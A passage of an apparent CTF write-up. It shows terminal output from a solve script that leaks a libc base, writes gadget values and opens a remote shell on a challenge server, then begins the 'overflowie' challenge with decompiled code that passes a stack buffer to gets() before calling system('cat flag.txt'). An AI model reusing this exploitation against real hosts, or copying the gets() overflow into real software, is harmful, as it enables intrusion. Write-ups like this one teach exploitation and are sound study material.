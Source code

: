 {% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-ind$ python solve.py 
[+] Opening connection to 35.234.117.20 on port 30502: Done
[*] '/home/yakuhito/ctf/unr21-ind/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[b'0', b'0', b'0', b'0', b'96', b'6', b'98', b'-46', b'-73', b'127', b'\n']
[*] Loaded cached gadgets for './libc-2.27.so'
[*] LIBC BASE @ 0x7fb7d222d000
[*] Value to write: 0x7fb7d222d8aa
[*] Value to write: 0x7fb7d224e5bf
[*] Value to write: 0x7fb7d23e0e1a
[*] Value to write: 0x7fb7d227c550
[*] Switching to interactive mode

$ id
uid=1000(ctf) gid=3000 groups=3000,2000
$ ls
flag.txt  the_matrix
$ cat flag.txt
{% endhighlight %}

**Flag:** ctf{87987fdaf4eff6538580ae74007f14723228eac25ce524ae57555ff6c38cd450}

## overflowie {#overflowie}

{% highlight bash %}
This little app brags that is very secure. Managed to put my hands on the source code, but I am bad at pwn. Can you do it for me please? Thx.

Flag format: ctf{sha256}
{% endhighlight %}

I don't think the binary can be called 'source code', but here's what IDA Pro managed to recover:

{% highlight bash %}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  v3 = stderr;
  setbuf(stderr, 0LL);
  verySecureFunction(v3, 0LL);
  return 0;
}
int verySecureFunction()
{
  char v1; // [rsp+0h] [rbp-50h]
  char s1; // [rsp+4Ch] [rbp-4h]

  puts("Enter the very secure code to get the flag: ");
  gets(&v1);
  if ( strcmp(&s1, "l33t") )
    return puts("Told you this is very secure!!!");
  puts("Omg you found the supersecret flag. You are l33t ind33d");
  return system("cat flag.txt");
}
{% endhighlight %}
